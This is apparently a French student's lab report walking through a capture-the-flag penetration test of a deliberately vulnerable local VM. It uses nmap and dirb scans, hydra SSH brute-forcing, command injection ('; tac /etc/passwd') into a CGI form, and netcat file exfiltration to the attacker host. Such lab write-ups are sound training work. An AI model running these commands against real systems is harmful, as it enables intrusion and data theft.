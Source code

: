 # Rapport du TP1

#### _(Si les addresses ip peuvent varier dans les commandes et les captures d'écran entre 10.0.2.15 et 10.0.2.5, c'est parce que j'ai réalisé le tp sur 2 jours différents et en redémarrant la vm, l'ip n'était plus la même)_

Pour scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1731071846729](image/rapport/1731071846729.png)
Ca nous ermet de trouver l'ip de la machine cible : 10.0.2.15

on test la connection entre les 2 machines
`ping 10.0.2.15`
![1731070918309](image/rapport/1731070918309.png)

on commence par chercher tous les ports ouverts
`nmap -p- 10.0.2.15`
![1731070574383](image/rapport/1731070574383.png)

## Port 21

On peut analyser plus en détail le port 21
`nmap -sC -sV -A -p 21 10.0.2.15`
![1731075008382](image/rapport/1731075008382.png)
on voit ici qu'il y a un FLAG.txt

on peut se connecter en mode ftp (avec l'identifiant et le mdp 'ftp')
`ftp 10.0.2.15`
et en faisant "ls" on retrouve bien notre FLAG.txt
![1731595575888](image/rapport-tp1/1731595575888.png)

on peut mintenant rapatrier sur la machine hote le fichier
`get FLAG.txt`
![1731074484434](image/rapport/1731074484434.png)

puis sur la machine hote, on peut lire le fichier, on a trouvé un **FLAG_1** :
`cat FLAG.txt`
![1731074552067](image/rapport/1731074552067.png)

## Port 22

On peut analyser plus en détail le port 22
`nmap -sC -sV -A -p 22 10.0.2.15`
![1731075194425](image/rapport/1731075194425.png)

On voit qu'il y a du ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`
![1731075451542](image/rapport/1731075451542.png)
On constate que ça échoue.

## Port 80

`nmap -sC -sV -A -p 80 10.0.2.15`
![1731075665644](image/rapport/1731075665644.png)
On voit que c'est du http et que le port 80 correspond au port par défaut du serveur web.

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.15`
On tombe sur une page web avec rien de spécial dessus.
![1731598519413](image/rapport-tp1/1731598519413.png)
En inspectant le code source de la page je ne vois rien non plus.

On utilise donc l'outil nikto (port 80 par défaut donc pas besoin d'options)
`nikto -h 10.0.2.15`
![1731075895889](image/rapport/1731075895889.png)
Avec dirb on peut voir les sous dossiers cachés (port 80 par défaut donc pas besoin d'options)
`dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`
![1731076851337](image/rapport/1731076851337.png)

On voit qu'il y a un dossier `/passwords`
Je me rend dans le navigateurs et j'essaie d'accéder à `http://10.0.2.15/passwords` et je trouve un **FLAG_2**
![1731076257587](image/rapport/1731076257587.png)
![1731076374431](image/rapport/1731076374431.png)

A la meme racine il y a aussi un fichier passwords.html donc je m'y rend `http://10.0.2.15/passwords.html`
![1731077959191](image/rapport/1731077959191.png)
En inspectant la page, on trouve un mot de passe qui pourrait servir pour la suite : "winter"

En effectuant la commande `dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`
![1731076851337](image/rapport/1731076851337.png)
On observe aussi un fichier `/robots.txt`

`curl 10.0.2.15/robots.txt`
![1731077800614](image/rapport/1731077800614.png)

On se rend à l'Url `10.0.2.15/cgi-bin/root_shell.cgi`
![1731078285579](image/rapport/1731078285579.png)
Il n'y a pas grand chose à voir ici

On esssaye l'Url `10.0.2.15/cgi-bin/tracertool.cgi`
![1731078349122](image/rapport/1731078349122.png)
On tombe sur un outil qui demande d'entrer une Ip

On remarque que l'on peut taper des commandes dans la zone de texte en ajoutant ";" avant
On essaye d'accéder au fichier contenant les information des utilisateurs du système.
`; cat /etc/passwd`

L'interface nous affiche un chat retourné. Avec un peu de réflexion on comprend que c'est le "cat" qui est à l'envers, donc "tac"
`; tac /etc/passwd`
![1731598950870](image/rapport-tp1/1731598950870.png)

L'interface affiche e nombreuses information, et on remarque le mot clé "Summer" sur la 2e ligne, contraire de "winter" que l'on a repéré avant, ainsi que "Morty" et "RickSanchez", qui font référence à la page web de l'adresse `10.0.2.15`.

On peut se connecter à l'utilisateur Summer en ssh, et avec le mot de passe "winter".
`ssh Summer@10.0.2.5 -p 22222`
![1731599330907](image/rapport-tp1/1731599330907.png)

En tapant la commande `cat FLAG.txt`, on retrouve la meme image de chat à l'envers. `tac FLAG.txt` nous permet de voir le vrai **FLAG_3**.
![1731599482546](image/rapport-tp1/1731599482546.png)

En continuant à chercher, je me déplace à la racine du dossier, où il y a 3 utilisateurs (Morty, RickSanchez, Summer)
On peut utiliser la commande find pour avoir une idée de l'arboressance des fichiers.
![1731602059562](image/rapport-tp1/1731602059562.png)

On trouve un fichier NotAFlage.txt suspect. En l'ouvrant on s'aperçoit que ce n'est vraiment pas un Flag.

On peut aussi voir un fichier image nommé "Safe_Password.jpg". Comme on est connecté en ssh il est compliqué de réaliser des interractions dessus. En cherchant un peu j'ai vu qu'il était possible d'ouvrir une connexion entre la machine hote et la cible avec netcat afin de rapatrier le fichier sur la machine hote.

En tapant la commande suivante sur ma machine hote, j'ouvre un connexion réseau et je dis que je vais appeller le fichier que je vais recevoir "fileMDP.jpg" : `nc -l -p 12345 > fileMDP.jpg`

Depuis ma machine cible, j'envoie le fichier sur l'hote sur le port 12345 `cat Morty/Safe_Password.jpg | nc 10.0.2.4 12345`

![1731601298908](image/rapport-tp1/1731601298908.png)
L'hote a bien récupérer le fichier.

On utilise la commande `strings fileMDP.jpg` pour déchiffrer toutes les chaines de caractère lisible dans le fichier binaire de l'image. Cette commande renvoie plein de lignes de caractère, dont une qui retient mon attention :
![1731601476011](image/rapport-tp1/1731601476011.png)

Sur la machine cible en ssh, je peux unzip l'archive /home/Morty/journal.txt.zip à l'aide du mot de passe que j'ai obtenu.
J'ai une erreur "permission denied" car je n'ai pas les droits d'unzip l'archive ici. Je vais donc la copier dans le répertoire tmp.
`cp /Morty/journal.txt.zip /tmp/`
puis dans /tmp je l'unzip
`unzip journal.txt.zip`

en lisant le fichier je trouve un **FLAG_4**
![1731601949819](image/rapport-tp1/1731601949819.png)

## Port 9090

`nmap -sC -sV -A -p 9090 10.0.2.15`
![1731076487206](image/rapport/1731076487206.png)

On voit que c'est encore un serveur web, donc on va utiliser à nouveau nikto et dirb

Je ne trouve rien de spécial avec les commandes. Il s'agit d'un serveur web donc j'essaie de simplement tapper l'url `http://10.0.2.15:9090`
![1731078655553](image/rapport/1731078655553.png)
On tombe sur une page web contenant un **FLAG_5**

## Port 13337

`nmap -sC -sV -A -p 13337 10.0.2.15`
![1731079070435](image/rapport/1731079070435.png)

On a pas d'info (ssh, ftp, web) donc on peut utiliser netcat pour établir une connexion réseau et essayer de trouver des indices.
`nc 10.0.2.15 13337`

![1731078939699](image/rapport/1731078939699.png)
On a trouvé un **FLAG_6**

## Port 22222

`nmap -sC -sV -A -p 22222 10.0.2.15`
![1731079545295](image/rapport/1731079545295.png)
On constate que c'est du ssh donc on va faire une attaque brut force en utilisant hydra

`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`
![1731602532478](image/rapport-tp1/1731602532478.png)
Malheureusement je n'ai rien trouvé avec cette attaque brut force.

## Port 60000

`nmap -sC -sV -A -p 60000 10.0.2.5`
![1731596005710](image/rapport-tp1/1731596005710.png)
On a pas vraiment d'informations donc on va utiliser netcat pour établir une connexion.

`nc 10.0.2.5 60000`
![1731597495624](image/rapport-tp1/1731597495624.png)
On trouve bien un fichier **FLAG_7**
